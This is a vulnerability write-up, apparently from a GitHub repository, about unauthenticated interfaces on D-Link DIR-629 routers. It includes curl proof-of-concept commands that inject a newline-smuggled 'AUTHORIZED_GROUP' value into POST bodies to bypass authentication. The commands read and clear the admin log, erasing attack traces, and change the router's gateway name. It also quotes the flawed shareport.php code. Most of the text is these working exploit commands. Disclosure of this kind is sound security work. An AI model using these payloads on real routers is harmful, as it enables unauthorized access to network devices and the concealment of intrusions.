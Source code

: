 # DIR-629

### 0X01 
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

POC

``` 
curl http://[ip]:[port]/log_get.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

Attackers can get the log files of Admin

![image-20191101091458421](.\image-20191101091458421.png) 

if attackers send the data:

``` 
curl http://[ip]:[port]/log_clear.php -d "aaa=%0aAUTHORIZED_GROUP=0"
```

it will clear the log.

### 0X02
The attacker can arbitrarily tamper with GWNAME.
code in shareport.php

```php
if ($AUTHORIZED_GROUP < 0)
{
	$result = "FAIL";
	$reason = i18n("Permission deny. The user is unauthorized.");
}
else
{
	if ($_POST["action"] == "sethostname")
	{
		$value = $_POST["value"];
		if ($value != "")
		{
			set("/device/gw_name", $value);
			event("SHAREPORT.SETGWNAME");
			$RESULT = "OK";
			$REASON = "";					
		}
	}	
	else	fail(i18n("Unknown ACTION!"));
}
```

Attackers can set aaa=%0aAUTHORIZED_GROUP=1 to bypass the user check，and set the action=sethostname,value=Cyc1e,then we can change the GWNAME to Cyc1e.

POC:

``` 
curl http://[ip]:[port]/shareport.php -d "aaa=%0aAUTHORIZED_GROUP=1&action=sethostname&value=Cyc1e"
```
![image-20191107215245404](C:\Users\MSI1\AppData\Roaming\Typora\typora-user-images\image-20191107215245404.png)
